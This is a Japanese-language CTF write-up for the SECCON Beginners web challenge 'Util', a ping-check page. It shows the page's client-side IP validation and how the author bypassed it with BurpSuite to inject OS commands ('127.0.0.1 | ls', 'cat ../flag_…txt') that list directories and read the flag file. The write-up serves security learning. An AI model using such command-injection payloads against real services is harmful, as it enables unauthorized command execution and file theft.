

# [WEB] Util 54pts
ctf4b networks社のネットワーク製品にはとっても便利な機能があるみたいです! でも便利すぎて不安かも...?

(注意) SECCON Beginners運営が管理しているサーバー以外への攻撃を防ぐために外部への接続が制限されています。

https://util.quals.beginners.seccon.jp/

# Solution
Ping check と書かれたサイト。IPアドレスと書かれているので、試しに `127.0.0.1` を送信してみる。

pingコマンドを動かしているっぽい。ので、OSコマンドインジェクションが可能と推測。`127.0.0.1 | ls` を試してみる。`Invalid IP address` と表示された。
ソースコードを確認すると、JavaScriptで無効な入力かどうか判別する処理を行なっている事がわかる。
```JavaScript
    function send() {
      var address = document.getElementById("addressTextField").value;

      if (/^(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)$/.test(address)) {
        var json = {};
        json.address = address

        var xhr = new XMLHttpRequest();
        xhr.open("POST", "/util/ping");
        xhr.setRequestHeader("Content-Type", "application/json");
        xhr.send(JSON.stringify(json));

        document.getElementById("notify").innerHTML = "<p>sending...</p>";

        xhr.onload = function () {
          if (xhr.status != 200) {
            document.getElementById("notify").innerHTML =
              "<p>Request Error : " + xhr.response + "</p>";
          } else {
            document.getElementById("notify").innerHTML =
              "<pre><code>" + JSON.parse(xhr.response).result.replaceAll("\n", "<br />") + "</code></pre>";
          }
        };
      } else {
        document.getElementById("notify").innerHTML = "<p>Invalid IP address</p>";
      }
    }

    var init = function () {
      var btn = document.getElementById("submit");
      var popup = function () {
        send();
      };
      btn.addEventListener("click", popup, false);
    };

    window.addEventListener("load", init, false);

```
BurpSuite で 内容を書き換えてみる。
### Request
```
{"address":"127.0.0.1 | ls"}
```
### Response
```
{"result":"api\npages\n"}
```
lsの結果が表示された。\
ここからソースコードを読んでフラグに関係した場所を探していくと、Dockerfileにそれらしきものが書かれていることに気づく。
### Dockerfile
```
~~~

RUN echo "ctf4b{xxxxxxxxxxxxxxxxxx}" > /flag_$(cat /dev/urandom | tr -dc "a-zA-Z0-9" | fold -w 16 | head -n 1).txt

~~~
```

`flag_xxxx.txt` を探す。
### Request
```
{"address":"127.0.0.1 | (cd .. && ls)"}
```
### Response
```
{"result":"app\nbin\ndev\netc\nflag_A74FIBkN9sELAjOc.txt\nhome\nlib\nmedia\nmnt\nopt\nproc\nroot\nrun\nsbin\nsrv\nsys\ntmp\nusr\nvar\n"}
```

`flag_A74FIBkN9sELAjOc.txt` を発見。catコマンドで表示させる。
### Request
```
{"address":"127.0.0.1 | cat ../flag_A74FIBkN9sELAjOc.txt"}
```
### Response
```
{"result":"ctf4b{al1_0vers_4re_i1l}\n"}
```

終了。